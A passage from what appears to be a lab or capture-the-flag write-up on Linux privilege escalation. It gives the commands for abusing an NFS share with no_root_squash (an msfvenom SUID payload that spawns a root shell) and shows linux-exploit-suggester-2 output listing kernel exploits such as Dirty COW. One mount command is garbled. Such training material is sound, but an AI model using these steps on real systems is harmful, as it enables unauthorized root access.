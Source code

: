 switch to your root user if you are not already running as root:

`sudo su`

Using Kali's root user, create a mount point on your Kali box and mount the **/tmp** share:

`mkdir /tmp/nfsmount -o rw,vers=3 10.10.10.10:/tmp /tmp/nfs`

Still using Kali's root user, generate a payload using **msfvenom** and save it to the mounted share (this payload simply calls /bin/bash):

`msfvenom -p linux/x86/exec CMD="/bin/bash -p" -f elf -o /tmp/nfs/shell.elf`
<img width="1797" height="356" alt="LPE23" src="https://github.com/user-attachments/assets/db55c7ad-7815-44de-a982-a359df95460f" />


Still using Kali's root user, make the file executable and set the SUID permission:

`chmod +xs /tmp/nfs/shell.elf`

Back on the Debian VM, as the low privileged user account, execute the file to gain a root shell:

`/tmp/shell.elf`

What is the name of the option that disables root squashing?

Answer:no_root_squash

Task 20:Kernel Exploits
<img width="1917" height="648" alt="LPE24" src="https://github.com/user-attachments/assets/d7dac96d-2cc9-4005-b84e-5a24a9e3841e" />


we havw automated tools to do what we did tell now like 

`linPEAS.SH, lse.sh,linEnum.sh` 

for exploits of kernels we have `dirtycow , linux-exploit-suggester-2`   

now lets use of them to see what happens

`perl /home/user/tools/kernel-exploits/linux-exploit-suggester-2/linux-exploit-suggester-2.pl`

```bash
root@debian:/home/user/tools/kernel-exploits# perl /home/user/tools/kernel-exploits/linux-exploit-suggester-2/linux-exploit-suggester-2.pl

  #############################
    Linux Exploit Suggester 2
  #############################

  Local Kernel: 2.6.32
  Searching 72 exploits...

  Possible Exploits
  [1] american-sign-language
      CVE-2010-4347
      Source: http://www.securityfocus.com/bid/45408
  [2] can_bcm
      CVE-2010-2959
      Source: http://www.exploit-db.com/exploits/14814
  [3] dirty_cow
      CVE-2016-5195
      Source: http://www.exploit-db.com/exploits/40616
  [4] exploit_x
      CVE-2018-14665
      Source: http://www.exploit-db.com/exploits/45697
  [5] half_nelson1
      Alt: econet       CVE-2010-3848
      Source: http://www.exploit-db.com/exploits/17787
  [6] half_nelson2
      Alt: econet       CVE-2010-3850
      Source: http://www.exploit-db.com/exploits/17787
  [7] half_nelson3
```